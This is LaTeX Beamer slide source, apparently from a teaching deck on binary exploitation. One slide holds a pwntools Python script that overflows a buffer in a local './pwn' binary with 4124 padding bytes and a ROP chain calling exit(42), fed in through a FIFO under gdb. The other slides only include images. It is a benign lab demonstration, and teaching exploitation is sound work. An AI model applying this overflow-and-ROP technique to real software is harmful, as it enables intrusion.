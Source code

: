\begin{frame}[fragile]
  {pwntools again!}

  \begin{lstlisting}[language=python]
from pwn import *  # NOQA

velf = ELF("./pwn")
r = ROP(velf)
r.call("exit", [42])
payload = "A" * 4124 + str(r)

# launch process
vp = process(["./pwn", "./fifo"])
gdb.attach(vp)
# break *0x8048f4e

with open("./fifo", "w") as f:
    f.write(payload)

# forward stdin/stdout to process stdin/stdout
vp.interactive()
  \end{lstlisting}
\end{frame}


{
\begin{frame}[plain]
  \begin{center}
    \includegraphics[height=0.7\textheight]{./images/pwntools-exp.png}
  \end{center}
\end{frame}


\begin{frame}[plain]
  \begin{center}
    \includegraphics[width=\textwidth]{./images/pwntools-shellcraft.png}
  \end{center}
\end{frame}
}

